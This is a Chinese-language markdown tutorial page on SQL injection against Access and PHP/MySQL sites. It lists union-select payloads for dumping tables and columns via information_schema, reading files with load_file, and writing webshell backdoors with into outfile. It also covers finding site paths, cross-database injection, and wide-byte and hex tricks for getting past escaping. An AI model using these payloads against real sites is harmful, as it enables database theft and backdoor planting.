 #### 偏移注入
+ 当表名知道,列名无法获取的时候使用
+ 用`*`代替字符,可以计算出`*`代替字符的位数,例如添加` union select 1,2,3....,12,* from admin`,也就是表的列数.
+ 后可以用`from(admin as a inner join admin as b on a.id=b.id)`,这样`*`就代表2倍的列数,利用这,可以偏移曝出admin内的某列的字段内容.
+ 例如`1,2,3,4,5,....,22`曝出的字段是5和16,列数是6当`*`为12时,22-12=10,用`1,2,3,...,10,*`可以曝出第6列的内容.

#### 有待后续更新...

------

### php+mysql的注入
+ php是现在WEB开发技术的巨头,mysql应该是免费数据中最强的关系型数据库,这俩货绝对是黄金搭档.
+ 注入步骤上不同于access,因为mysql会多出一层数据库,因为一个mysql服务中会存在多个shujuku来服务于多个web项目,好在mysql5.0以上拥有Information_shcema这个数据库,会记录所有数据库里的表名列名等等信息,可以告别暴力猜解啦

#### 注入流程
1. 判断注入,同access,这个没什么好说的了
2. 添加`order by`来判断当前查询表的列数,为了后面的流程准备.
3. 通过`union select 1,2,3 from admin`暴力猜解表名,也可以先通过`union select database(),version,user(),@@version_compile_os` 来分别得出数据库名,数据库版本,当前数据库用户,服务器系统版本,为后面的有根据的注入来服务.
4. 通过`union select table_name,2,3 from information.tables where table_schema=数据库名的十六进制`可以得到指定数据库下所有表名,`information.tables`里会存储整个mysql里所有表信息.
5. 通过` union select Column_name,2,3 from information_schema.columns where table_name=指定表名的十六进制表示`可以根据指定表名来获取该表的所有列名,`information_schema.Columns`会存有整个mysql里所有列名的信息.
6. 有了表名列名剩下的就简单了`union select 列名,2,3 from 表名`搞定.

#### mysql的用户权限和上传读取文件
+ mysql中的mysql数据库中有user表,里面记录者所有mysql用户和对应每项操作的权限,我们可以根据注入点得到当前站点使用的mysql用户,就可以得知该用户是否有权限进行文件读取上传等等操作.
+ 如果有读取权限则可以用` union select load_file(指定文件路径),2,3`.可用于获取敏感文件的内容.
+ 如果有写入文件权限则可以用 `union select '文件内容' into outfile '指定文件路径`.可上传后门,一句话木马,**注意** 单引号闭合问题 可以将文件内容用**十六进制**编码代替,路径别用反斜杠.
+ 如果能有文件读取和写入的权限,自然要知道网站服务器的目录结构,也就是获取网站路径的获取.

    1. 网站曝出显示,php.ini 中display_errors默认是打开的,利用注入点报错就可以在当前页面获取页面路径.
    2. phpcms曝路径,如果知道别人用的cms是哪一个,就可以百度一下看这种cms如何曝路径
    3. 调试页面曝路径, phpinfo(),网站开发人员通常会搞个这个页面去方便调试网站,可以用工具去批量扫一下看有没有如此网页遗留.
    4. 读取配置文件,对应服务器配置文件所在位置,,前提是要有读取权限.
    5. 社工学,盲猜目录或者谷歌黑客.
    6. 注意符号问题用`/`或者`\\`,当写入文件内容的时候,内容有`'`的时候将内容转换成**十六进制**写入.

#### 完善注入的完整度
+ 跨库注入,通过网站的注入点跨库注入在同一个mysql下另一个网站的数据库,前提是获得的mysql账号权限足够大.
+ 善于使用抓包工具对常用sql注入工具进行抓包,然后可以分析工具所用的sql语句,就可以知道sql渗透的原理,例如``= 999999.9 union all select (select distinct concat(0x7e,0x27,unhex(Hex(cast(schema_name as char))),0x27,0x7e) from `information_schema`.schemata limit 14,1),0x31303235343830303536,0x31303235343830303536``就可以依次获取其他数据库的名字,``= 999999.9 union all select (select concat(0x7e,0x27,unhex(Hex(cast(group_concat(table_name) as char))),0x27,0x7e) from `information_schema`.tables where table_schema=0x6874747073716C696E),0x31303235343830303536,0x31303235343830303536``可获取指定数据库的表名信息.多抓包,多理解原理.

#### mysql的防注入转义
+ 魔术引号的开启,php.ini中magic_quotes_gpc开启所有的`'`,`"`,`\`和NULL字符都会被自动加上反斜杠作为转译.
+ 使用addslashes函数对字符串进行转译,效果同上.
+ 对于这种防注入可以采用宽字节注入,但具体要怎么绕过要根据实际情况来灵活运用.
+ 编码注入,,在mysql里用十六进制编码可以不需要单引号直接上内容就可以达到绕过防注入转译
